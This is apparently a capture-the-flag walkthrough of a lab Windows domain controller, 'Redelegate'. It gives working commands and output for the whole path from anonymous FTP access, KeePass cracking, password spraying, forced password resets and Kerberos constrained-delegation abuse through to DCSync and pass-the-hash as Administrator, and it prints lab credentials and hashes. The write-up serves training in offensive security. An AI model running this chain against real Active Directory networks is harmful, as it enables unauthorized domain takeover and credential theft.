

# Attack Chain

```
└─► anonymous FTP → CyberAudit.txt + TrainingAgenda.txt (hint) + Shared.kdbx
	└─► custom wordlist → crack kdbx → Fall2024!
		└─► KeePass secrets → SQLGuest creds
			└─► MSSQL (guest, no RCE) → rid brute → user list
				└─► password spray (seasons.txt) → marie.curie:Fall2024!
					└─► BloodHound → Helpdesk group → ForceChangePassword on helen.frost
						└─► reset helen.frost → WinRM → user.txt
							└─► whoami /priv → SeEnableDelegationPrivilege (MAQ=0)
								└─► GenericAll on FS01$ → reset FS01$ password
									└─► configure KCD
										└─► getST S4U → impersonate dc$
											└─► DCSync → Administrator NT hash
												└─► WinRM as Administrator → root.txt
```

# Summary

- [Enumeration](#enumeration)
	- [nmap](#nmap)
	- [SMB](#smb)
	- [FTP](#ftp)
		- [Custom wordlist](#custom-wordlist)
		- [Crack Keepass password](#crack-keepass-password)
		- [Shares.kdbx inspection](#shareskdbx-inspection)
- [MSSQL](#mssql)
	- [Rid Brute Force](#rid-brute-force)
	- [Password Spraying](#password-spraying)
- [Bloodhound](#bloodhound)
	- [Attack Path](#attack-path)
	- [ForceChangePassword on helen.frost](#forcechangepassword-on-helenfrost)
- [Privilege Escalation](#privilege-escalation)
	- [FS01 machine account takeover](#fs01-machine-account-takeover)
	- [Configure Delegation](#configure-delegation)
	- [Request a service ticket](#request-a-service-ticket)
	- [DCSync](#dcsync)
	- [Shell as administrator](#shell-as-administrator)

---
# Enumeration

### nmap

```
nmap -sVC -p- 10.129.*.*  -oA nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2026-07-02 18:04 CEST
Nmap scan report for 10.129.*.* 
Host is up (0.058s latency).
Not shown: 65504 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-02 16:05:19Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-02T15:51:50
|_Not valid after:  2056-07-02T15:51:50
|_ssl-date: 2026-07-02T16:06:22+00:00; 0s from scanner time.
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-07-02T16:06:22+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Not valid before: 2026-07-01T15:49:29
|_Not valid after:  2026-12-31T15:49:29
| rdp-ntlm-info:
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-02T16:06:14+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49932/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-02T15:51:50
|_Not valid after:  2056-07-02T15:51:50
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2026-07-02T16:06:22+00:00; 0s from scanner time.
62092/tcp open  msrpc         Microsoft Windows RPC
63714/tcp open  msrpc         Microsoft Windows RPC
63717/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
63718/tcp open  msrpc         Microsoft Windows RPC
63719/tcp open  msrpc         Microsoft Windows RPC
63724/tcp open  msrpc         Microsoft Windows RPC
63738/tcp open  msrpc         Microsoft Windows RPC
63765/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

> [!NOTE]
> **Observations**
> - FTP on port 21, anonymous login enabled
> - MSSQL Instance on port 1433
> - Target is an Active Directory
> - Domain is `redelegate.vl`
> - FQDN of the target is `dc.redelegate.vl`

Let's add this entry to our `/etc/hosts` file.

```
echo '10.129.*.*  redelegate.vl dc.redelegate.vl dc' | tee -a /etc/hosts
```

### SMB

First, we can look if Null sessions are enabled on the target.

```
nxc smb dc.redelegate.vl -u '' -p ''
SMB         10.129.*.*    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.*.*    445    DC               [+] redelegate.vl\:
```

It is, but we can't access the shares since our access is denied.

### FTP

There is FTP running and anonymous login is enabled so let's dig into it.

```
ftp 10.129.*.* 

Name (10.129.*.* :root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
ftp> ls
10-20-24  01:11AM                  434 CyberAudit.txt
10-20-24  05:14AM                 2622 Shared.kdbx
10-20-24  01:26AM                  580 TrainingAgenda.txt
ftp> binary
200 Type set to I.
ftp> mget *
```


> [!NOTE]
> **DEBUG**
> If we don't switch to binary mode in FTP, the file will likely not be transferred correctly since it uses ASCII mode, which can corrupt the file's bytes.

We retrieved 3 files. Let's inspect them.

```
cat CyberAudit.txt

OCTOBER 2024 AUDIT FINDINGS

[!] CyberSecurity Audit findings:

1) Weak User Passwords
2) Excessive Privilege assigned to users
3) Unused Active Directory objects
4) Dangerous Active Directory ACLs

[*] Remediation steps:

1) Prompt users to change their passwords: DONE
2) Check privileges for all users and remove high privileges: DONE
3) Remove unused objects in the domain: IN PROGRESS
4) Recheck ACLs: IN PROGRESS
```

The file `CyberAudit.txt` is an audit finding report. We have several pieces of information such as some users might have weak passwords, and that there are dangerous ACLs in place.

We can now inspect the file `TrainingAgenda.txt`.

```
cat TrainingAgenda.txt
 
EMPLOYEE CYBER AWARENESS TRAINING AGENDA (OCTOBER 2024)

Friday 4th October  | 14.30 - 16.30 - 53 attendees
"Don't take the bait" - How to better understand phishing emails and what to do when you see one


Friday 11th October | 15.30 - 17.30 - 61 attendees
"Social Media and their dangers" - What happens to what you post online?


Friday 18th October | 11.30 - 13.30 - 7 attendees
"Weak Passwords" - Why "SeasonYear!" is not a good password


Friday 25th October | 9.30 - 12.30 - 29 attendees
"What now?" - Consequences of a cyber attack and how to mitigate them
```

It's an Agenda about cyber awareness. This probably follows the audit finding report.

The third one might give us a hint about the structure of a password being used by an employee : 
`SeasonYear!`

Also, the keepass file needs a password to be opened.

#### Custom wordlist

From the hint we found, we can craft a wordlist like this :

```
cat seasons.txt

Fall2020!
Fall2021!
Fall2022!
Fall2023!
Fall2024!
Fall2025!
Winter2020!
Winter2021!
Winter2022!
Winter2023!
Winter2024!
Winter2025!
Spring2020!
Spring2021!
Spring2022!
Spring2023!
Spring2024!
Spring2025!
Summer2020!
Summer2021!
Summer2022!
Summer2023!
Summer2024!
Summer2025!
```

We will use it to try to crack the keepass's password.

#### Crack Keepass password

First we need to use `keepass2john.py` to retrieve the password's hash.

```
keepass2john.py Shared.kdbx > shared_hash.txt
```

Then we can use `john` with our wordlist to crack it.

```
john --wordlist=seasons.txt shared_hash.txt

<SNIP>

Fall2024!        (Shared)

<SNIP>
```

> [!TIP]
> **Keepass's password Cracked**

#### Shares.kdbx inspection

Let's access the file now and retrieve its secret.



From the IT folder we can retrieve the following credentials :

- FS01 Admin : `Administrator` - `Spdv41gg4BlBgSYIW1gF`
- FTP : `FTPUser` - `SguPZBKdRyxWzvXRWy6U`
- SQL Guest Access : `SQLGuest` - `zDPBpaF4FywlqIv11vii`
- Wordpress Panel : `cn4KOEgsHqvKXPjEnSD9`

The only one interesting is probably the credentials for the SQL instance.

Let's see if these credentials are valid.

```
nxc mssql dc.redelegate.vl -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth

MSSQL       10.129.*.*   1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.*.*    1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii
```

# MSSQL

Since we have valid credentials, we can inspect the MSSQL instance.

```
mssqlclient.py "redelegate.vl"/"SQLGuest":"zDPBpaF4FywlqIv11vii"@"10.129.*.* "

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SQLGuest  guest@master)>
```

```
SQL (SQLGuest  guest@master)> xp_cmdshell whoami
ERROR(DC\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

But we can't use `xp_cmdshell`, enable it, impersonate user nor run commands on linked servers. 

So nothing can be exploited here.

### Rid Brute Force

Still, we can retrieve the domain's user list of the domain with the flag `--rid-brute`.

```
nxc mssql dc.redelegate.vl -u 'SQLGuest' -p 'zDPBpaF4FywlqIv11vii' --local-auth --rid-brute

MSSQL       10.129.*.*    1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
MSSQL       10.129.*.*    1433   DC               [+] DC\SQLGuest:zDPBpaF4FywlqIv11vii
MSSQL       10.129.*.*    1433   DC               498: REDELEGATE\Enterprise Read-only Domain Controllers
MSSQL       10.129.*.*    1433   DC               500: WIN-Q13O908QBPG\Administrator
MSSQL       10.129.*.*    1433   DC               501: REDELEGATE\Guest
MSSQL       10.129.*.*    1433   DC               502: REDELEGATE\krbtgt
MSSQL       10.129.*.*    1433   DC               512: REDELEGATE\Domain Admins

<SNIP>
```
### Password Spraying

After making a user list out of this, we can attempt a password spraying attack with the `seasons.txt` wordlist we created earlier.

```
nxc smb dc.redelegate.vl -u users.txt -p seasons.txt --continue-on-success --no-bruteforce

<SNIP>

SMB         10.129.*.*    445    DC               [+] REDELEGATE\Marie.Curie:Fall2024!

<SNIP>
```

Our attempt is successful, and we have valid credentials for the user `marie.curie`.

# Bloodhound

With a valid domain user account, we can collect domain data for **Bloodhound** and see if we can exploit some ACLs.

### Attack Path

```
bloodhound.py --zip -c all -u "marie.curie" -p 'Fall2024!' -d 'redelegate.vl' -ns 10.129.*.* 
```

Running the query **Shortest Path from Owned Principals** reveals the following :

`marie.curie` is a member of the **Helpdesk** group which has `ForceChangePassword` on `helen.frost`.

### ForceChangePassword on helen.frost

Knowing this, we can change the password of `helen.frost` to whatever we want.

```
bloodyAD -H dc.redelegate.vl -u marie.curie -p 'Fall2024!' -d redelegate.vl set password helen.frost 'Password123!'

[+] Password changed successfully!
```

And we can connect over winRM on the target.

```
evil-winrm -u helen.frost -p 'Password123!' -i dc.redelegate.vl

*Evil-WinRM* PS C:\Users\Helen.Frost\Documents>
```

We can grab `user.txt` from here.

# Privilege Escalation

Let's list the privileges of `helen.frost`.

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                 State
========================      =====================================       =======
SeMachineAccountPrivilege     Add workstations to domain                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                    Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts                                                       to be trusted for delegation                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set              Enabled
```

The user has the privilege `SeEnableDelegationPrivilege` which allows us to configure Kerberos delegation. 
In this case, we can't add a computer to the domain to perform Resource Based Constrained Delegation (RBCD) attacks since `MachineAccountQuota` is set to 0. 
However, the **Bloodhound** graph shows that we have `GenericAll` over FS01 which allows us to control the machine account and perform a constrained delegation.
Combined with `SeEnableDelegationPrivilege`, this lets us set up classic Constrained Delegation. 

### FS01 machine account takeover

We can start by changing `FS01$`'s password.

```
bloodyAD -H dc.redelegate.vl -d redelegate.vl -u helen.frost -p 'Password123!' set password FS01$ 'Password123!'
[+] Password changed successfully!
```

And check if we can connect on `dc.redelegate.vl` with it.

```
nxc smb dc.redelegate.vl -u 'FS01$' -p 'Password123!'
SMB         10.129.*.*     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.*.*     445    DC               [+] redelegate.vl\FS01$:Password123! 
```

### Configure Delegation

Now that we are in control of `FS01$` and that `helen.frost` has the privilege `SeEnableDelegationPrivilege`, we can set up the Kerberos Constrained Delegation so we will be able to request a service ticket for cifs/dc while impersonating a privileged account.

First we add the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag to the User Account Control (uac) of `FS01$`, enabling protocol transition so FS01 can obtain a forwardable ticket on behalf of any user.

```
bloodyAD -H dc.redelegate.vl -d redelegate.vl -u helen.frost -p 'Password123!' add uac 'FS01$' -f TRUSTED_TO_AUTH_FOR_DELEGATION

[+] ['TRUSTED_TO_AUTH_FOR_DELEGATION'] property flags added to FS01$'s userAccountControl
```

Then we set `msDS-AllowedToDelegateTo` to point at `cifs/dc.redelegate.vl`, defining which service FS01 is allowed to delegate to.

```
bloodyAD -H dc.redelegate.vl -d redelegate.vl  -u helen.frost -p 'Password123!' set object 'FS01$' msDS-AllowedToDelegateTo -v 'cifs/dc.redelegate.vl'

[+] FS01$'s msDS-AllowedToDelegateTo has been updated
```

We can confirm the Kerberos Constrained Delegation (KCD) is set up with `findDelegation.py`.

```
findDelegation.py "redelegate.vl"/"helen.frost":"Password123!"

AccountName  AccountType  DelegationType            DelegationRightsTo    SPN Exists 
-----------  -----------  -----------------------  ---------------------  ----------
DC$          Computer     Unconstrained                       N/A                    Yes        
FS01$        Computer     Constrained w/ Protocol Transition  cifs/dc.redelegate.vl  No
```

### Request a service ticket

We can now use `getST.py` to request a service ticket for `cifs/dc.redelegate.vl` the DC machine account.
We impersonate the DC machine account rather than `administrator` because it is protected against delegation (it would fail with KDC_ERR_BADOPTION), whereas `dc$` is not, and it has the privileges we need on the DC.

```
getST.py -spn 'cifs/dc.redelegate.vl' -impersonate dc -dc dc.redelegate.vl 'redelegate.vl/FS01$:Password123!'

Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache
```

### DCSync

Let's export the ticket and perform a DCSync attack to retrieve the administrator's hash.

```
export KRB5CCNAME=dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache 
```

```
secretsdump.py -k -no-pass -just-dc-user administrator dc.redelegate.vl
Impacket v0.14.0.dev0+20260407.172353.7fc084ad - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:db3a850aa5ede4cfacb57490d9b789b1ca0802ae11e09db5f117c1a8d1ccd173
Administrator:aes128-cts-hmac-sha1-96:b4fb863396f4c7a91c49ba0c0637a3ac
Administrator:des-cbc-md5:102f86737c3e9b2f
[*] Cleaning up... 
```

The ticket runs in the context of `dc$`, which holds replication rights on the domain. This is what allows the DRSUAPI (DCSync) call to succeed.

### Shell as administrator

```
evil-winrm -i dc.redelegate.vl -u administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

> [!TIP]
> **Machine rooted**